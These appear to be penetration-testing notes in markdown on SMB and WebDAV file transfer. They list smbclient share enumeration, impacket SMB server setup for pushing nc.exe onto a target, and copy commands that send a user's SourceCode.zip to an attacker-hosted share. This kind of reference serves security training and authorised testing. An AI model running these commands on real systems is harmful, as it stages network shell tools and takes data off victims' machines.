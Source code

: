 #### Shares
```smb
smbclient -N -L \\\\<IP>
```

```smb
smbclient \\\\<IP>\\users
```

```smb
smbclient -U <user> \\\\<IP>\\<sharename>
```
## SMB Downloads
#### Create the SMB Server
```shell
sudo impacket-smbserver share -smb2support /tmp/smbshare
```
#### Copy a File from the SMB Server
```cmd
copy \\192.168.220.133\share\nc.exe
```
#### Create the SMB Server with a Username and Password
```shell
sudo impacket-smbserver share -smb2support /tmp/smbshare -user test -password test
```
#### Mount the SMB Server with Username and Password
```cmd
net use n: \\192.168.220.133\share /user:test test
```
```
copy \\192.168.220.133\share\nc.exe
```
## SMB Uploads
### WebDav
```shell
sudo pip3 install wsgidav cheroot
```
#### WebDav Python
```shell
sudo wsgidav --host=0.0.0.0 --port=80 --root=/tmp --auth=anonymous 
```
#### Webdav Share
```cmd
dir \\192.168.49.128\DavWWWRoot
```
#### Uploading Files using SMB
```cmd
copy C:\Users\john\Desktop\SourceCode.zip \\192.168.49.129\DavWWWRoot\
```
```cmd
copy C:\Users\john\Desktop\SourceCode.zip \\192.168.49.129\sharefolder\
```

